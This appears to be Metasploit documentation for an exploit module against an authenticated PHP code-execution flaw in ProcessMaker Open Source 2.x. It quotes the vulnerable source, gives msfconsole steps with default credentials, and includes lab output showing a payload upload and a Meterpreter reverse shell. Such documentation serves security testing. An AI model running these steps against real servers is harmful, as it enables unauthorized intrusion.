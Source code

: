 ## Description

  This module exploits a PHP code execution vulnerability in the default *neoclassic* skin for [ProcessMaker Open Source](http://www.processmaker.com/) which allows any authenticated user to execute PHP code. The vulnerable skin is installed by default in version 2.x prior to 2.5.2 and cannot be removed via the web interface.


## Vulnerable Application

  ProcessMaker is an open source, workflow management software suite, which includes tools to automate your workflow, design forms, create documents, assign roles and users, create routing rules, and map an individual process quickly and easily. It's relatively lightweight and doesn't require any kind of installation on the client computer.

  This module has been tested successfully on ProcessMaker Open Source versions:

  * 2.5.1 on Windows XP SP3
  * 2.5.0 on Windows XP SP3
  * 2.0.45 on Debian Linux
  * 2.0.23 on Windows XP SP3

  The vulnerability was patched in version 2.5.2.

  Source and Installers:

  * [ProcessMaker Open Source 2.0.x](https://sourceforge.net/projects/processmaker/files/ProcessMaker/2.0/)
  * [ProcessMaker Open Source 2.5.x](https://sourceforge.net/projects/processmaker/files/ProcessMaker/2.5/)


## Technical Details

  Several files within the default *neoclassic* skin allow authenticated users to supply a PHP function in the `action` parameter and arguments for the aforementioned function in the `params` parameter. The application calls the supplied function name with the supplied parameters resulting in execution of arbitrary user supplied PHP code.

  The relevant source code for the affected files is shown below.

  **appFolder/appFolderAjax.php**

  ```php
  if (($_REQUEST['action']) != 'rename') {
      $functionName = $_REQUEST ['action'];
      $functionParams = isset ($_REQUEST ['params']) ? $_REQUEST ['params'] : array ();
      $functionName ($functionParams);
  ```

  **cases/casesStartPage_Ajax.php**

  ```php
  $functionName = $_REQUEST['action'];
  $functionParams = isset( $_REQUEST['params'] ) ? $_REQUEST['params'] : array ();
  $functionName( $functionParams );
  ```

  **cases/cases_SchedulerGetPlugins.php**

  ```php
  $functionName = $_REQUEST['action'];
  $functionParams = isset( $_REQUEST['params'] ) ? $_REQUEST['params'] : array ();
  $functionName( $functionParams );
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/http/processmaker_exec`
  3. Do: `set username [USER]`
  4. Do: `set password [PASS]`
  5. Do: `set workspace [WORKSPACE]`
  6. Do: `set rhost [IP]`
  7. Do: `run`
  8. You should get a session


## Options

  **Username**

  The username for a ProcessMaker user (default: `admin`).

  **Password**

  The password for the ProcessMaker user (default: `admin`).

  **Workspace**

  The ProcessMaker workspace for which the specified user has access (default: `workflow`).


## Sample Output

  ```
  msf exploit(processmaker_exec) > check
  [*] 192.168.172.135:80 - Authenticating as user 'admin'
  [+] 192.168.172.135:80 - Authenticated as user 'admin'
  [*] 192.168.172.135:80 - Sending check
  [+] The target is vulnerable.

  msf exploit(processmaker_exec) > exploit
  [*] Started reverse handler on 192.168.172.1:4444
  [*] 192.168.172.135:80 - Authenticating as user 'admin'
  [+] 192.168.172.135:80 - Authenticated as user 'admin'
  [*] 192.168.172.135:80 - Sending payload 'V7hd5EevO9Ho.php' (1795 bytes)
  [+] 192.168.172.135:80 - Payload sent successfully
  [*] 192.168.172.135:80 - Retrieving file 'V7hd5EevO9Ho.php'
  [*] Sending stage (39195 bytes) to 192.168.172.135
  [*] Meterpreter session 3 opened (192.168.172.1:4444 -> 192.168.172.135:32789) at 2013-10-29 09:53:08 -0500
  [+] Deleted V7hd5EevO9Ho.php

  ^C[-] Exploit failed: Interrupt

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
  Computer    : processmaker
  OS          : Linux processmaker 3.2.0-4-amd64 #1 SMP Debian 3.2.51-1 x86_64
  Meterpreter : php/php
  meterpreter > exit
  ```

